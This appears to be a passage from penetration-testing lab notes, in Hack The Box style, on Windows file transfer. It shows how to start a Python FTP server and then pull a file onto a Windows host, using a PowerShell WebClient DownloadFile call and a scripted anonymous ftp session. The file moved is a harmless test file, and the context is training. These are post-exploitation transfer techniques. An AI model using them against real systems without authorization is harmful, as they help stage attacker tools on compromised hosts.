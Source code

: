 ```shell-session
AhmaDb0x@htb[/htb]$ sudo pip3 install pyftpdlib
```

#### Setting up a Python3 FTP Server
```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 -m pyftpdlib --port 21
```

#### Transfering Files from an FTP Server Using PowerShell
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

#### Create a Command File for the FTP Client and Download the Target File

Windows File Transfer Methods

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```

